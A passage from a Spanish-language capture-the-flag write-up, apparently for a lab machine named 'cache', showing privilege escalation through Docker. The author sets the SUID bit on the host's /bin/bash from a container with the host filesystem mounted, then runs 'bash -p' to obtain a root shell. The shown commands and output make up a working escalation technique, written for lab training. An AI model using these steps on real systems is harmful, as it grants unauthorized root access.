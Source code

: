 Aprovechando los privilegios que tenemos sobre el contenedor, podemos darle permisos SUID a `/bin/bash` que se encuentra bajo la ruta `/mnt/root`, es decir `chmod 4755 /mnt/root/bin/bash`:

```bash
root@6ab913d0e201:/# chmod 4755 /mnt/root/bin/bash 
root@6ab913d0e201:/# ls -l /mnt/root/bin/bash
-rwsr-xr-x 1 root root 1113504 Apr  4  2018 /mnt/root/bin/bash
root@6ab913d0e201:/# 
```

Nos salimos del contenedor y lo paramos. Si vemos los permisos en la máquina principal de `/bin/bash`, vemos que es SUID.

```bash
luffy@cache:/$ docker stop privesc
privesc
luffy@cache:/$ docker ps -a
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
luffy@cache:/$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Apr  4  2018 /bin/bash
luffy@cache:/$
```

Ya aquí podemos migrar a **root** facilmente.

```bash
luffy@cache:/$ bash -p
bash-4.4# whoami
root
bash-4.4#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).
